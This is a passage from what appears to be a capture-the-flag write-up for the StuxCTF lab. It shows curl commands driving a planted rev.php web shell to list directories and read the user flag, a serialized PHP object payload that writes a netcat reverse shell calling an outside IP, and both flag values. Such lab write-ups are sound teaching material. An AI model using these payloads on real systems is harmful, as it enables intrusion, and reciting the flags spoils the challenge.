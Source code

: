 ```bash
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls /home"
grecia
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=ls /home/grecia"
user.txt
:~/StuxCTF# curl -s http://stuxctf.thm//47315028937264895539131328176684350732577039984023005189203993885687328953804202704977050807800832928198526567069446044422855055/rev.php --get --data-urlencode "cmd=cat /home/grecia/user.txt"
0b6044b7807dd100b9e30f1bd09db53f
:~/StuxCTF# 

```

<br>
<br>


> 1.2. <em>root.txt </em><br><a id='1.2'></a>
>> <strong><code>0028454003b42601548df551b738976c</code></strong><br>
<p></p>


<br>


![image](https://github.com/user-attachments/assets/b189729e-218c-4211-bf58-3dfcfc8d57d3)

<br>

<p>O:4:"file":2:{s:4:"file";s:7:"rev.php";s:4:"data";s:56:"<?php shell_exec("nc -e /bin/bash 10.10.17.38 9999"); ?>";}</p>

![image](https://github.com/user-attachments/assets/b7d6a743-1062-42ac-a676-6e5f1c643c8c)

<br>

![image](https://github.com/user-attachments/assets/86a9bf48-d190-4b87-bcc2-b3a57d19ae61)

<br>

![image](https://github.com/user-attachments/assets/a5edbf38-2cab-4d8d-87e8-2c0613b5303a)



<br>


![image](https://github.com/user-attachments/assets/22964415-a9b2-4100-8800-e46ef6ca3122)

<br>

![image](https://github.com/user-attachments/assets/16d161d8-2de5-49b9-b076-e2621fba47c3)

<br>
